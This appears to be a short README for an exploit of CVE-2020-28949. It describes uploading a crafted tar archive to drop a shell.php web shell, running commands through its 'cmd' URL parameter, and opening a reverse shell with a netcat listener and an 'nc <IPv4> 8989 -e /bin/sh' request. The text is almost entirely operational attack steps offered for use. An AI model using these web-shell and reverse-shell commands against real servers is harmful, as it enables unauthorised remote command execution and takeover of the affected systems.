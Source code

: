 ## CVE-2020-28949

#### How to exploit
1. Create the tar exploit
2. Send the tar exploit to the server
3. Access `shell.php`

#### Using shell.php
We can run shell command by using the following url:
http://localhost:8080/shell.php?cmd=<whoami>

```
eg. http://localhost:8080/shell.php?cmd=whoami
```

#### Getting reverse shell
1. Get ur IPv4 address using `ifconfig`
2. Listen to port 8989
  ```
  netcat -nlvp 8989
  ```
3. Use the command below to get shell 
  ```
  http://localhost:8080/shell.php?cmd=nc <IPv4> 8989 -e /bin/sh
  ```